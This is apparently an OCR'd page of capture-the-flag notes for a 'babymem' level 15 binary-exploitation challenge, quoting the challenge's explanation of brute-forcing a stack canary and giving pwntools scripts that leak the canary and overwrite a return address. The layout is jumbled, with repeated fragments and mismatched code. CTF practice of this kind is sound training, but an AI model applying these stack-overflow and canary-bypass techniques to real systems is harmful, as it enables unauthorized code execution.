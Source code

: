 ```python
r.sendline(b'\xaa' * 328 + p64(canary) + b'\xaa' * 8 + b'\xbc\x1f')
#r.interactive()
print(r.readall())
```

#### Level 15
from pwn import *
r = process("/challenge/babymem_level15.0")
s = remote('localhost',1337, typ='tcp')

That means that you will need to input at least 48 bytes (19 to fill the buffer,
21 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).
While canaries are enabled, this networked program forks.
What is important to note is that the canary does not get re-randomized on fork.
When data that you are overflowing into is critical (i.e., if you screw it up
the program crashes), but also static across executions, you can brute-force
it byte by byte over many attempts.

So, let's brute-force the canary!
If this is your first time running this program, all you know so far is that
the canary has a 0 as its left-most byte.
You should proceed like this:

- First, you should try overflowing just the null byte of the canary, for
  practice. The canary starts at 0x7ffef4ed8c88, which is 24 bytes after the
  start of your buffer. Thus, you should provide 24 characters followed
  by a NULL byte, make sure the canary check passes, then try a non-NULL
  byte and make sure the canary check fails. This will confirm the offsets.
- Next try each possible value for just the next byte. One of them (the same
  as whatever was there in memory already) will keep the canary intact, and
  when the canary check succeeds, you know you have found the correct one.
- Go on to the next byte, leak it the same way, and so on, until you have
  the whole canary.

You will likely want to script this process! Each byte might take up to 256
tries to guess..

地址：0x1ce5
``` SHELL
from pwn import *
r = process("/challenge/babymem_level15.0")
s = remote('localhost',1337, typ='tcp')
t = remote('localhost',1337, typ='tcp')
payload1 = b'REPEAT' + b'a'*4 + b'b'

s.sendlineafter(b'Payload size: ', str(len(payload1)))
s.sendafter(b'bytes)!\n', payload1)
s.recvuntil("- the canary value is now 0x")
canary = int(s.recvline()[:-2], 16)
log.success("canary => {}".format(hex(canary)))

t.sendline("42")
t.sendline(b'\xaa' * 24 + p64(canary) + b'\xaa' * 8 + b'\xe5\x1c')
t.interactive()
#print(t.readall())
```